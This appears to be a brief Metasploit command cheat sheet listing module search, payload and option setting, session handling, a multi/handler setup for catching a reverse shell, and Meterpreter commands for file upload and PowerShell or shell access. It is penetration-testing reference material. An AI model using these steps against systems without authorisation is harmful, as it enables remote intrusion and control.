 ## Basics

```
msfconsole
```

run metasploit console.

___

## Modules

```
search <string>
```

search module/exploit/payload.

```
use <module>
```

use specific module.

```
show payloads
```

display all payloads.

```
set payload <number>
```

set active payload.

___

## Options

```
show options
```

display active module options.

```
set <parameter> <value>
```

set active module parameter.

```
setg <parameter> <value>
```

set global parameter.

```
unset <parameter>
```

unset parameter.

```
unset all
```

unset all parameters.

___

## Run

```
run
```

run active module.

```
back
```

exit active module.

___

## Sessions

```
sessions
```

display all sessions.

```
sessions -i <id>
```

interact with specific session.

___

## Reverse shell

```
use exploit/multi/handler
set PAYLOAD <payload>
set LHOST <ip>
set LPORT <port>
run
```

catch reverse shell.

___

## Meterpreter

```
upload <file>
```

upload a local file.

```
load powershell
```

load Powershell.

```
powershell_shell
```

enter Powershell.

```
shell
```

run a command line shell.